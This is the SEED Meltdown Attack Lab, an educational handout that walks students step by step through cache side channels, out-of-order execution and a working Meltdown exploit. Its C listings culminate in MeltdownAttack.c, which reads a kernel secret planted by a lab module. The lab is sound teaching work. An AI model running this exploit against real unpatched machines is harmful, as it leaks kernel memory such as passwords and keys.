


# Meltdown Attack Lab

Copyright © 2018 by Wenliang Du.<br>
This work is licensed under a Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License. If you remix, 
transform, or build upon the material, this copyright notice must be left intact, or reproduced in a way that is reasonable 
to the medium in which the work is being re-published.

## 1 Introduction

Discovered in 2017 and publicly disclosed in January 2018, the Meltdown exploits critical vulnerabilities existing in many modern processors, including those from Intel and ARM [6]. The vulnerabilities allow a user-level program to read data stored inside the kernel memory. Such an access is not allowed by the hardware protection mechanism implemented in most CPUs, but a vulnerability exists in the design of these CPUs that makes it possible to defeat the hardware protection. Because the flaw exists in the hardware, it is very difficult to fundamentally fix the problem, unless we change the CPUs in our computers. The Meltdown vulnerability represents a special genre of vulnerabilities in the design of CPUs. Along with the Spectre vulnerability, they provide an invaluable lesson for security education.

The learning objectiveof this lab is for students to gain first-hand experiences on the Meltdown attack. The attack itself is quite sophisticated, so we break it down into several small steps, each of which is easy to understand and perform. Once students understand each step, it should not be difficult for them to put everything together to perform the actual attack. Students will use the Meltdown attack to print out a secret data stored inside the kernel. This lab covers a number of topics described in the following:

- Meltdown attack
- Side channel attack
- CPU Caching
- Out-of-order execution inside CPU microarchitecture
- Kernel memory protection in operating system
- Kernel module

Readings and videos. Detailed coverage of the Meltdown attack can be found in the following:

- Chapter 13 of the SEED Book,Computer & Internet Security: A Hands-on Approach, 2nd Edition, by Wenliang Du. See details at https://www.handsonsecurity.net.
- Section 8 of the SEED Lecture,Computer Security: A Hands-on Approach, by Wenliang Du. See details at https://www.handsonsecurity.net/video.html.

Lab Environment. This lab has been tested on our pre-built Ubuntu 16.04 VM, which can be downloaded from the SEED website. On the SEED Ubuntu 20.04 VM, Tasks 1 to 6 still work as expected, but Tasks 7  nd 8 will not work due to the countermeasures implemented inside the OS. When using this lab, instructors should keep the followings in mind: First, the Meltdown vulnerability is a flaw inside Intel CPUs, so if a student’s machine is an AMD machine, the attack will not work. Second, Intel is working on fixing this problem in its CPUs, so if a student’s computer uses new Intel CPUs, the attack may not work. It is not a problem for now (February 2018), but six months from now, situations like this may arise. Third, although most students’ computers have already been patched, the attack is conducted inside our pre-built VM, which is not patched, so the attack will still be effective. Therefore, students should not update the VM’s operating system, or the attack may be fixed.


Acknowledgment This lab was developed with the help of Hao Zhang and Kuber Kohli, graduate students in the Department of Electrical Engineering and Computer Science at Syracuse University.

## 2 Code Compilation

For Ubuntu 16.04 OS. For most of our tasks, you need to add-march=nativeflag when compiling the code withgcc. Themarchflag tells the compiler to enable all instruction subsets supported by the local machine. For example, we compilemyprog.cusing the following command:

```
$ gcc -march=native -o myprog myprog.c
```

For Ubuntu 20.04 OS. On Ubuntu 20.04 OS, including the-march=nativeoption may cause errors to some computers. From our debugging effort, it seemed this option was no longer needed. Therefore, if you do encounter errors due to this option, try the compilation without using the option:

```
$ gcc -o myprog myprog.c
```

## 3 Tasks 1 and 2: Side Channel Attacks via CPU Caches

Both the Meltdown and Spectre attacks use CPU cache as a side channel to steal a protected secret. The technique used in this side-channel attack is called FLUSH+RELOAD [7]. We will study this technique first. The code developed in these two tasks will be used as a building block in later tasks. A CPU cache is a hardware cache used by the CPU of a computer to reduce the average cost (time or energy) to access data from the main memory. Accessing data from CPU cache is much faster than accessing from the main memory. When data are fetched from the main memory, they are usually cached by the CPU, so if the same data are used again, the access time will be much faster. Therefore, when a CPU needs to access some data, it first looks at its caches. If the data is there (this is called cache hit), it will be fetched directly from there. If the data is not there (this is called miss), the CPU will go to the main memory to get the data. The time spent in the latter case is significant longer. Most modern CPUs have CPU caches.


#### 3.1 Task 1: Reading from Cache versus from Memory

The cache memory is used to provide data to the high speed processors at a faster speed. The cache memories are very fast compared to the main memory. Let us see the time difference. In the following code (CacheTime.c), we have an array of size (^10) * 4096. We first access two of its elements, array[3*4096] and array[7*4096]. Therefore, the pages containing these two elements will be cached. We then read the elements from array[0*4096] to array[9*4096] and measure the time spent in the memory reading. Figure 1 illustrates the difference. In the code, Line ➀ reads the CPU’s times-tamp (TSC) counter before the memory read, while Line ➁ reads the counter after the memory read. Their difference is the time (in terms of number of CPU cycles) spent in the memory read. It should be noted that caching is done at the cache block level, not at the byte level. A typical cache block size is 64 bytes. We use array[k*4096], so no two elements used in the program fall into the same cache block.

Listing 1:CacheTime.c

```
#include <emmintrin.h>
#include <x86intrin.h>

uint8_t array[10*4096];

int main(int argc, const char **argv) {
    int junk=0;
    register uint64_t time1, time2;
    volatile uint8_t *addr;
    int i;
    
    // Initialize the array
    for(i=0; i<10; i++) array[i*4096]=1;
    
    // FLUSH the array from the CPU cache
    for(i=0; i<10; i++) _mm_clflush(&array[i*4096]);
    
    // Access some of the array items
    array[3*4096] = 100;
    array[7*4096] = 200;
    for(i=0; i<10; i++) {
        addr = &array[i*4096];
        time1 = __rdtscp(&junk); ➀
        junk = *addr;
        time2 = __rdtscp(&junk) - time1; ➁
        printf("Access time for array[%d*4096]: %d CPU cycles\n",i, (int)time2);
    }
    return 0;
}
```

Please compile the following code using gcc -march=native CacheTime.c, and run it. Is the access of array[3*4096] and array[7*4096] faster than that of the other elements? You should run the program at least 10 times and describe your observations. From the experiment, you need to find a threshold that can be used to distinguish these two types of memory access: accessing data from the cache versus accessing data from the main memory. This threshold is important for the rest of the tasks in this lab.  


#### 3.2 Task 2: Using Cache as a Side Channel

The objective of this task is to use the side channel to extract a secret value used by the victim function.
Assume there is a victim function that uses a secret value as index to load some values from an array. Also



assume that the secret value cannot be accessed from the outside. Our goal is to use side channels to get this secret value. The technique that we will be using is called FLUSH+RELOAD [7]. Figure 2 illustrates the technique, which consists of three steps:

1. FLUSH the entire array from the cache memory to make sure the array is not cached.
2. Invoke the victim function, which accesses one of the array elements based on the value of the secret. This action causes the corresponding array element to be cached.
3. RELOAD the entire array, and measure the time it takes to reload each element. If one specific element’s loading time is fast, it is very likely that element is already in the cache. This element must be the one accessed by the victim function. Therefore, we can figure out what the secret value is.

The following program uses the FLUSH+RELOAD technique to find out a one-byte secret value contained in the variablesecret. Since there are 256 possible values for a one-byte secret, we need to map each value to an array element. The naive way is to define an array of 256 elements (i.e.,array[256]). However, this does not work. Caching is done at a block level, not at a byte level. Ifarray[k]is accessed, a block of memory containing this element will be cached. Therefore, the adjacent elements of array[k] will also be cached, making it difficult to infer what the secret is. To solve this problem, we create an array of (^256) * 4096 bytes. Each element used in our RELOAD step is array[k*4096]. Because 4096 is larger than a typical cache block size (64 bytes), no two different elements array[i*4096] and array[j*4096] will be in the same cache block. 

Since array[0*4096] may fall into the same cache block as the variables in the adjacent memory, it may be accidentally cached due to the caching of those variables. Therefore, we should avoid using array[0*4096] in the FLUSH+RELOAD method (for other index k,array[k*4096] does not have a problem). To make it consistent in the program, we use array[k*4096 + DELTA]for all k values, where DELTA is defined as a constant 1024.

Listing 2:FlushReload.c

```
#include <emmintrin.h>
#include <x86intrin.h>
uint8_t array[256*4096];
int temp;
unsigned char secret = 94;


/* cache hit time threshold assumed*/
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

void flushSideChannel()
{
    int i;

    // Write to array to bring it to RAM to prevent Copy-on-write
    for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;

    // Flush the values of the array from cache
    for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}

void victim()
{
    temp = array[secret*4096 + DELTA];
}

void reloadSideChannel()
{
    int junk=0;
    register uint64_t time1, time2;
    volatile uint8_t *addr;
    int i;
    for(i = 0; i < 256; i++){
        addr = &array[i*4096 + DELTA];
        time1 = __rdtscp(&junk);
        junk = *addr;
        time2 = __rdtscp(&junk) - time1;
        if (time2 <= CACHE_HIT_THRESHOLD){
            printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
            printf("The Secret = %d.\n",i);
        }
    }
}

int main(int argc, const char **argv)
{
    flushSideChannel();
    victim();
    reloadSideChannel();
    return (0);
}
```

Please compile the program usinggccand run it (see Section 2 for compilation instruction). It should be noted that the technique is not 100 percent accurate, and you may not be able to observe the expected output all the time. Run the program for at least 20 times, and count how many times you will get the secret correctly. You can also adjust the threshold CACHE_HIT_THRESHOLD to the one derived from Task 1 ( is used in this code).

## 4 Tasks 3-5: Preparation for the Meltdown Attack

Memory isolation is the foundation of system security. In most operating systems, kernel memory is not directly accessible to user-space programs. This isolation is achieved by a supervisor bit of the processor that defines whether a memory page of the kernel can be accessed or not. This bit is set when CPU enters the kernel space and cleared when it exits to the user space [3]. With this feature, kernel memory can be safely mapped into the address space of every process, so the page table does not need to change when a user-level program traps into the kernel. However, this isolation feature is broken by the Meltdown attack, which allow unprivileged user-level programs to read arbitrary kernel memory.

#### 4.1 Task 3: Place Secret Data in Kernel Space

To simplify our attack, we store a secret data in the kernel space, and we show how a user-level program can find out what the secret data is. We use a kernel module to store the secret data. The implementation of the kernel module is provided in MeltdownKernel.c. Students’ task is to compile and install the kernel module. The code is shown below.

Listing 3:MeltdownKernel.c

```
static char secret[8] = {’S’, ’E’, ’E’, ’D’, ’L’, ’a’, ’b’, ’s’};
static struct proc_dir_entry *secret_entry;
static char* secret_buffer;

static int test_proc_open(struct inode *inode, struct file *file)
{
#if LINUX_VERSION_CODE <= KERNEL_VERSION(4,0,0)
    return single_open(file, NULL, PDE(inode)->data);
#else
    return single_open(file, NULL, PDE_DATA(inode));
#endif
}

static ssize_t read_proc(struct file *filp, char *buffer,size_t length, loff_t *offset)
{
    memcpy(secret_buffer, &secret, 8);  ➀
    return 8;
}

static const struct file_operations test_proc_fops =
{
    .owner = THIS_MODULE,
    .open = test_proc_open,
    .read = read_proc,
    .llseek = seq_lseek,
    .release = single_release,
};

static __init int test_proc_init(void)
{
    // write message in kernel message buffer
    printk("secret data address:%p\n", &secret); ➁

    secret_buffer = (char*)vmalloc(8);

    // create data entry in /proc
    secret_entry = proc_create_data("secret_data",0444, NULL, &test_proc_fops, NULL);  ➂
    if (secret_entry) return 0;

    return -ENOMEM;
}

static __exit void test_proc_cleanup(void)
{
    remove_proc_entry("secret_data", NULL);
}

module_init(test_proc_init);
module_exit(test_proc_cleanup);
```

Two important conditions need to be held, or Meltdown attacks will be quite difficult to succeed. In our kernel module, we ensure that the conditions are met:

- We need to know the address of the target secret data. The kernel module saves the address of the secret data into the kernel message buffer (Line ➁), which is public accessible; we will get the address from there. In real Meltdown attacks, attackers have to figure out a way to get the address, or they have to guess.
- The secret data need to be cached, or the attack’s success rate will be low. The reason for this condition will be explained later. To achieve this, we just need to use the secret once. We create a data entry /proc/secretdata(Line ➂), which provides a window for user-level programs to interact with the kernel module. When a user-level program reads from this entry, thereadproc()function in the kernel module will be invoked, inside which, the secret variable will be loaded (Line ➀) and thus be cached by the CPU. It should be noted thatreadproc()does not return the secret data to the user space, so it does not leak the secret data. We still need to use the Meltdown attack to get the secret.

Compilation and execution. Download the code from the lab website, and go to the directory that contains Make file and MeltdownKernel.c. Type themakecommand to compile the kernel module. To install this kernel module, use theinsmodcommand. Once we have successfully installed the kernel module, we can use thedmesgcommand to find the secret data’s address from the kernel message buffer. Take a note of this address, as we need it later.

```
$ make
$ sudo insmod MeltdownKernel.ko
$ dmesg | grep ’secret data address’
secret data address: 0xfb61b
```
#### 4.2 Task 4: Access Kernel Memory from User Space

Now we know the address of the secret data, let us do an experiment to see whether we can directly get the secret from this address or not. You can write your own code for this experiment. We provide a code sample in the following. For the address in Line ➀, you should replace it with the address obtained from the
previous task. Compile and run this program (or your own code) and describe your observation. Will the
program succeed in Line ➁? Can the program execute Line ➂?

```
int main()
{
    char *kernel_data_addr = (char*)0xfb61b000; ➀
    char kernel_data = *kernel_data_addr;       ➁
    printf("I have reached here.\n");           ➂
    return 0;
}
```

#### 4.3 Task 5: Handle Error/Exceptions in C

From Task 4, you have probably learned that accessing a kernel memory from the user space will cause the program to crash. In the Meltdown attack, we need to do something after accessing the kernel memory, so we cannot let the program crash. Accessing prohibited memory location will raise a SIGSEGV signal; if a program does not handle this exception by itself, the operating system will handle it and terminate the program. That is why the program crashes. There are several ways to prevent programs from crashing by a catastrophic event. One way is to define our own signal handler in the program to capture the exceptions raised by catastrophic events. Unlike C++ or other high-level languages, C does not provide direct support for error handling (also known as exception handling), such as the try/catch clause. However, we can emulate the try/catch clause using sigsetjmp()and siglongjmp(). We provide a C program calledExceptionHandling.c in the following to demonstrate how a program can continue to execute even if there is a critical exception, such as memory access violation. Please run this code, and describe your observations.

Listing 4:ExceptionHandling.c

```
static sigjmp_buf jbuf;

static void catch_segv()
{
    // Roll back to the checkpoint set by sigsetjmp().
    siglongjmp(jbuf, 1);                            ➀
}

int main()
{
    // The address of our secret data
    unsigned long kernel_data_addr = 0xfb61b000;

    // Register a signal handler
    signal(SIGSEGV, catch_segv);                    ➁

    if (sigsetjmp(jbuf, 1) == 0) {                  ➂
        // A SIGSEGV signal will be raised.
        char kernel_data =*(char*)kernel_data_addr; ➃

        // The following statement will not be executed.
        printf("Kernel data at address %lu is: %c\n",
        kernel_data_addr, kernel_data);

}
else {
    printf("Memory access violation!\n");
}
    printf("Program continues to execute.\n");
    return 0;
}
```

The exception handling mechanism in the above code is quite complicated, so we provide further explanation in the following:

- Set up a signal handler: we register a SIGSEGV signal handler in Line➁, so when a SIGSEGV signal is raised, the handler function catchsegv() will be invoked.
- Set up a checkpoint: after the signal handler has finished processing the exception, it needs to let the program continue its execution from particular checkpoint. Therefore, we need to define a checkpoint first. This is achieved viasigsetjmp()in Line➂ :sigsetjmp(jbuf, 1)saves the stack context/environment in jbuffor later use bysiglongjmp(); it returns 0 when the checkpoint is set up [4].
- Roll back to a checkpoint: When siglongjmp(jbuf, 1) is called, the state saved in the jbuf variable is copied back in the processor and computation starts over from the return point of the sigsetjmp()function, but the returned value of thesigsetjmp()function is the second argument of thesiglongjmp()function, which is 1 in our case. Therefore, after the exception handling, the program continues its execution from the else branch.
- Triggering the exception: The code at Line➃ will trigger aSIGSEGVsignal due to the memory access violation (user-level programs cannot access kernel memory).

## 5 Task 6: Out-of-Order Execution by CPU

From the previous tasks, we know that if a program tries to read kernel memory, the access will fail and an exception will be raised. Using the following code as an example, we know that Line 3 will raise an exception because the memory at address 0xfb61b000belongs to the kernel. Therefore, the execution will be interrupted at Line 3, and Line 4 will never be executed, so the value of thenumbervariable will still be 0.

```
1 number = 0;
2 *kernel_address = (char*)0xfb61b000;
3 kernel_data = *kernel_address;
4 number = number + kernel_data;
```

The above statement about the code example is true when looking from outside of the CPU. However, it is not completely true if we get into the CPU, and look at the execution sequence at the microarchitectural level. If we do that, we will find out that Line 3 will successfully get the kernel data, and Line 4 and subsequent instructions will be executed. 

This is due to an important optimization technique adopted by modern CPUs. It is called out-of-order execution. Instead of executing the instructions strictly in their original order, modern high performance CPUs allow out-of-order execution to exhaust all of the execution units. Executing instructions one after another may lead to poor performance and inefficient resources usage, i.e., current instruction is waiting for previous instruction to complete even though some execution units are idle [2]. With the out-of-order execution feature, CPU can run ahead once the required resources are available. 

In the code example above, at the microarchitectural level, Line 3 involves two operations: load the data (usually into a register), and check whether the data access is allowed or not. If the data is already in the CPU cache, the first operation will be quite fast, while the second operation may take a while. To avoid waiting, the CPU will continue executing Line 4 and subsequent instructions, while conducting the access check in parallel. This is out-of-order execution. The results of the execution will not be committed before the access check finishes. In our case, the check fails, so all the results caused by the out-of-order execution will be discarded like it has never happened. That is why from outside we do not see that Line 4 was executed. Figure 3 illustrates the out-of-order execution caused by Line 3 of the sample code.

 
 
Intel and several CPU makers made a severe mistake in the design of the out-of-order execution. They wipe out the effects of the out-of-order execution on registers and memory if such an execution is not supposed to happen, so the execution does not lead to any visible effect. However, they forgot one thing, the effect on CPU caches. During the out-of-order execution, the referenced memory is fetched into a register and is also stored in the cache. If the out-of-order execution has to be discarded, the cache caused by such an execution should also be discarded. Unfortunately, this is not the case in most CPUs. Therefore, it creates an observable effect. Using the side-channel technique described in Tasks 1 and 2, we can observe such an effect. The Meltdown attack cleverly uses this observable effect to find out secret values inside the kernel memory.

In this task, we use an experiment to observe the effect caused by an out-of-order execution. The code for this experiment is shown below. In the code, Line➀ will cause an exception, so Line➁ will not be executed. However, due to the out-of-order execution, Line➁ is executed by the CPU, but the result will eventually be discarded. However, because of the execution, array[7 * 4096 + DELTA] will now be cached by CPU. We use the side-channel code implemented in Tasks 1 and 2 to check whether we can observe the effect. Please download the code from the lab website, run it and describe your observations. In particular, please provide an evidence to show that Line¡is actually executed.

Listing 5:MeltdownExperiment.c

```
void meltdown(unsigned long kernel_data_addr)
{
    char kernel_data = 0;

    // The following statement will cause an exception
    kernel_data = *(char*)kernel_data_addr;         ➀
    array[7 * 4096 + DELTA] += 1;                   ➁
}

// Signal handler
static sigjmp_buf jbuf;
static void catch_segv() { siglongjmp(jbuf, 1); }

int main()
{
    // Register a signal handler
    signal(SIGSEGV, catch_segv);


    // FLUSH the probing array
    flushSideChannel();

    if (sigsetjmp(jbuf, 1) == 0) {
        meltdown(0xfb61b000);                       ➂
    }
    else {
    printf("Memory access violation!\n");
    }

    // RELOAD the probing array
    reloadSideChannel();
    return 0;
}
```

It should be noted that the address in Line➂ should be replaced by the actual address that you foundfrom the kernel module. Compile and run the code (see Section 2 for the instructions on the compilation). Document and explain your observations.

## 6 Task 7: The Basic Meltdown Attack

The out-of-order execution creates an opportunity for us to read data from the kernel memory, and then use the data to conduct operations that can cause observable effects on the CPU cache. How far a CPU can go in the out-of-order execution depends on how slow the access check, which is done in parallel, is performed. This is a typical race condition situation. In this task, we will exploit this race condition to steal a secret from the kernel.

#### 6.1 Task 7.1: A Naive Approach

In the previous task, we can getarray[7 * 4096 + DELTA] into the CPU cache. Although we can observe that effect, we do not get any useful information about the secret. If instead of using array[7 * 4096 + DELTA], we access array[kernel_data * 4096 + DELTA], which brings it into the CPU cache. Using the FLUSH+RELOAD technique, we check the access time of array[i * 4096 + DELTA] for i = 0, ..., 255. If we find out that only array[k * 4096 + DELTA] is in the cache, we can infer that the value of the kernel_data is K. Please try this approach by modifying MeltdownExperiment.c shown in Listing 5. Please describe your observations. Even if your attack is not successful, you should note down your observation, and continue on to Task 7.2, which is intended to improve the attack.

#### 6.2 Task 7.2: Improve the Attack by Getting the Secret Data Cached

Meltdown is a race condition vulnerability, which involves the racing between the out-of-order execution and the access check. The faster the out-of-order execution is, the more instructions we can execute, and the more likely we can create an observable effect that can help us get the secret. Let us look see how we can make the out-of-order execution faster.

The first step of the out-of-order execution in our code involves loading the kernel data into a register. At the same time, the security check on such an access is performed. If the data loading is slower than security check, i.e., when the security check is done, the kernel data is still on its way from the memory to the register, the out-of-order execution will be immediately interrupted and discarded, because the access check fails. Our attack will fail as well.

If the kernel data is already in the CPU cache, loading the kernel data into a register will be much faster, and we may be able to get to our critical instruction, the one that loads the array, before the failed check aborts our out-of-order execution. In practice, if a kernel data item is not cached, using Meltdown to steal the data will be difficult. However, as it has been demonstrated, Meltdown attacks can still be successful, but they require high-performance CPU and DRAM [5].

In this lab, we will get the kernel secret data cached before launching the attack. In the kernel module shown in Listing 3, we let user-level program to invoke a  function inside the kernel module. This function will access the secret data without leaking it to the user-level program. The side effect of this access is that the secret data is now in the CPU cache. We can add the code to our attack program used in Task 7.1, before triggering the out-of-order execution. Please run your modified attack program and see whether your success rate is improved or not.

```
// Open the /proc/secret_data virtual file.
int fd = open("/proc/secret_data", O_RDONLY);
if (fd < 0) {
    perror("open");
    return -1;
}

int ret = pread(fd, NULL, 0, 0); // Cause the secret data to be cached.
```

#### 6.3 Task 7.3: Using Assembly Code to Trigger Meltdown

You probably still cannot succeed in the previous task, even with secret data being cached by CPU. Let us do one more improvement by adding a few lines of assembly instructions before the kernel memory access. See the code in meltdownasm()below. The code basically do a loop for 400 times (see Line➀); inside the loop, it simply add a number0x141to theeaxregister. This code basically does useless computations, but according to a post discussion, these extra lines of code “give the algorithmic units something to chew while memory access is being speculated” [1]. This is an important trick to increase the possibility of success.

Listing 6:meltdownasm()

```
void meltdown_asm(unsigned long kernel_data_addr)
{
    char kernel_data = 0;

    // Give eax register something to do
    asm volatile(
        ".rept 400;"                ➀
        "add $0x141, %%eax;"
        ".endr;"                    ➁

        :
        :
        : "eax"
    );

    // The following statement will cause an exception
    kernel_data = *(char*)kernel_data_addr;
    array[kernel_data *4096 + DELTA] += 1;
}
```

Please call the meltdown_asm() function, instead of the original meltdown() function. Describe your observations. Increase and decrease the number of loops, and report your results.

## 7 Task 8: Make the Attack More Practical

Even with the optimization in the previous task, we may still not be able get the secret data every time: sometimes, our attack produces the correct secret value, but sometimes, our attack fails to identify any value or identifies a wrong value. To improve the accuracy, we can use a statistical technique. The idea is create a score array of size 256, one element for each possible secret value. We then run our attack for multiple times. Each time, if our attack program says thatkis the secret (this result may be false), we add 1 to scores[k]. After running the attack for many times, we use the valuekwith the highest score as our final estimation of the secret. This will produce a much reliable estimation than the one based on a single run. The revised code is shown in the following.

Listing 7:MeltdownAttack.c

```
static int scores[256];

void reloadSideChannelImproved()
{
    int i;
    volatile uint8_t *addr;
    register uint64_t time1, time2;
    int junk = 0;
    for (i = 0; i < 256; i++) {
        addr = &array[i *4096 + DELTA];
        time1 = __rdtscp(&junk);
        junk = *addr;
        time2 = __rdtscp(&junk) - time1;
        if (time2 <= CACHE_HIT_THRESHOLD)
        scores[i]++; /*if cache hit, add 1 for this value */
    }
}

// Signal handler
static sigjmp_buf jbuf;
static void catch_segv() { siglongjmp(jbuf, 1); }

int main()
{
    int i, j, ret = 0;
    // Register signal handler
    signal(SIGSEGV, catch_segv);
    int fd = open("/proc/secret_data", O_RDONLY);
    if (fd < 0) {
        perror("open");
        return -1;
    }
    memset(scores, 0, sizeof(scores));
    flushSideChannel();
    // Retry 1000 times on the same address.
    for (i = 0; i < 1000; i++) {
        ret = pread(fd, NULL, 0, 0);
        if (ret < 0) {
            perror("pread");
            break;
        }
        // Flush the probing array
    for (j = 0; j < 256; j++)
        _mm_clflush(&array[j* 4096 + DELTA]);
        if (sigsetjmp(jbuf, 1) == 0) { meltdown_asm(0xfb61b000); }
        reloadSideChannelImproved();
    }
    // Find the index with the highest score.
    int max = 0;
    for (i = 0; i < 256; i++) {
        if (scores[max] < scores[i]) max = i;
    }
    printf("The secret value is %d %c\n", max, max);
    printf("The number of hits is %d\n", scores[max]);
    return 0;
}
```

Please compile and run the code, and explain your observations. The code above only steals a one-byte secret from the kernel. The actual secret placed in the kernel module has 8 bytes. You need to modify the above code to get all the 8 bytes of the secret.

## 8 Submission

You need to submit a detailed lab report, with screenshots, to describe what you have done and what you have observed. You also need to provide explanation to the observations that are interesting or surprising. Please also list the important code snippets followed by explanation. Simply attaching code without any explanation will not receive credits.

## References

[1] Pavel Boldin. Explains about little assembly code #33. https://github.com/paboldin/meltdown-exploit/issues/33, 2018.

[2] Wikipedia contributors. Out-of-order execution — wikipedia, the free encyclopedia. https://en.wikipedia.org/w/index.php?title=Out-of-order_execution&oldid=826217063, 2018. [Online; accessed 21-February-2018].

[3] Wikipedia contributors. Protection ring — wikipedia, the free encyclopedia. https://en.wikipedia.org/w/index.php?title=Protection_ring&oldid=819149884, 2018.
[Online; accessed 21-February-2018].

[4] The Open Group.sigsetjmp- set jump point for a non-local goto.http://pubs.opengroup.org/onlinepubs/7908799/xsh/sigsetjmp.html, 1997.

[5] IAIK. Github repository for meltdown demonstration. https://github.com/IAIK/meltdown/issues/9, 2018.

[6] Moritz Lipp, Michael Schwarz, Daniel Gruss, Thomas Prescher, Werner Haas, Stefan Mangard, PaulKocher, Daniel Genkin, Yuval Yarom, and Mike Hamburg. Meltdown.ArXiv e-prints, January 2018.

[7] Yuval Yarom and Katrina Falkner. Flush+reload: A high resolution, low noise, l3 cache side-channel attack. InProceedings of the 23rd USENIX Conference on Security Symposium, SEC’14, pages 719–732, Berkeley, CA, USA, 2014. USENIX Association.
